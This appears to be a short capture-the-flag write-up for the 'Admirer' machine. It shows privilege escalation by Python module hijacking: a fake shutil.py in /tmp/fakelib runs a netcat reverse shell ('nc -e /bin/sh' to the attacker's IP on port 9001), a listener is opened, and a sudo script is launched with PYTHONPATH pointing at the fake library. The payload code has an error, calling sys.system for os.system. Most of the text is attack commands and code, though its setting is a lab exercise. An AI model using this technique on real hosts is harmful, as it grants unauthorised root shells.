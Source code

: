 So I hope you read the article on module hijacking. So let's get started.

First create a `fakelib` directory in `/tmp` 

Second create `shutil.py` inside `/tmp/fakelib` directoy with the following code

```
import sys

def make_archive_function(arg1, arg2, arg3) :
    sys.system('/bin/nc -e /bin/sh <your tun0 IP address> 9001')
```

Now let's set up a listener in port 9001 in our localmachine.

`nc -nvlp 9001`

Now let's do the magic. According to the article we see that we have `SETENV` tag enabled. So we can make python look for `shutil` module in the `/tmp/fakelib` directory insted of its usual directories. Type the following command

`sudo PYTHONPATH=/tmp/fakelib /opt/scripts/admin_tasks.sh`

and choose the `Backup web data` option.

On successful exploitation you will get the shell on your listening port as shown below.

![image](https://raw.githubusercontent.com/0xZuk0/matrix/master/assets/Admirer/root_shell_priv_esc_.png)
